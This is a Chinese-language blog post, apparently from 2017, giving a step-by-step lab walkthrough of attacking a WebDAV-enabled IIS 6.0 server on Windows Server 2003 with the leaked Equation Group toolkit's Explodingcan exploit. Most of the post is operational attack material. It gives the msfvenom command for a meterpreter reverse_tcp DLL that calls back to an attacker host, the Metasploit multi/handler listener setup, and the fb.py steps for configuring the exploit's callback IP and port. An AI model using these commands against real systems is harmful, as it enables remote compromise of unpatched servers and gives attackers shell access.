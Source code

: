 ```yaml
---
title: NSA工具包验证之IIS6.0漏洞利用
date: 2017-06-15 21:20:05
tags: 网络安全
---
```


### 验证环境：

攻击机1(本次演示IP：172.16.11.2)：windows系统，[安装python2.6.6](https://www.python.org/download/releases/2.6.6/), [pywin32-221.win32-py2.6.exe](https://sourceforge.net/projects/pywin32/files/pywin32/Build%20221/), xshell, xftp, [下载方程式工具包](https://codeload.github.com/misterch0c/shadowbroker/zip/master)放到C盘，在工具包目录下的windows目录新建文件夹"listeningposts"，并且开放所有端口关闭防火墙，确保内网可以访问之

攻击机2(本次演示IP：172.16.12.2)：kali linux，需要开启ssh服务，详情百度

目标机1(本次演示IP：172.16.12.3)：开放了80端口的Windows Server 2003 R2，IIS6.0，开启了Webdav功能

以上所有IP之间均可以直接访问
<!--more-->

### 验证步骤：

* * *

#### 第一步：生成可执行的恶意dll文件

0x01

首先通过xshell连接到kali linux，打开xshell，在跳出来的窗口点击new(新建)，然后填入kali的IP地址点击确定然后连接，接着依次输入kali的账号与密码即可连接，可能会跳出安全警告，点击接收并保存即可，连接完成得到如图：

![1.jpg](post164/1.jpg)

0x02

执行命令：
```
msfvenom -p windows/meterpreter/reverse_tcp LHOST=172.16.12.2 LPORT=5555 -f dll >s.dll
```

在kali根目录下生成s.dll文件，其中LHOST为kali的IP地址，LPORT为一个可任意填写的端口，届时将使目标机执行该dll向172.16.12.2:5555发送shell

0x03

点击xshell如图位置

![3.jpg](post164/3.jpg)

打开本地C盘，并将kali目录下刚刚生成的s.dll复制到本机的C盘根目录下，如图

![4.jpg](post164/4.jpg)

#### 第二步：配置kali使得kali处于监听状态

0x01

依次输入命令

```
msfconsole
use exploit/multi/handler
set lhost 172.16.12.2
set lport 5555
set PAYLOAD windows/meterpreter/reverse_tcp
exploit
```
看到如图即说明配置成功

![2.jpg](post164/2.jpg)

这时就可以将xshell最小化，等后边再用

#### 第三步：使用方程式工具包进行攻击

0x01

将方程式工具包下的windows文件夹重命名为win，然后拷贝到C盘根目录下，并在该文件夹下新建一个名为"listeningposts"的文件夹，如图，不然运行会报错

![5.jpg](post164/5.jpg)

0x02

打开命令提示符，输入
```
C:\win\fb.py
```
然后依次输入目标IP，本地IP，是否重定向，日志存放位置，新建工程，给该工程命名，最后确认，如图

![1.jpg](post164/1-16273798173061.jpg)

最后敲击回车

0x03

显示出`fb >`之后输入命令
```
use Explodingcan
```

使用该工具，之后除了下图所示位置需要修改，其他都保持默认直接敲击回车即可

![2.jpg](post164/2-16273798424632.jpg)

（选择系统，CallbackIP、CallbackPort等，端口可以任意设置）

![3.jpg](post164/3-16273798583573.jpg)

之后都保存默认配置，攻击成功如图

![4.jpg](post164/4-16273798725894.jpg)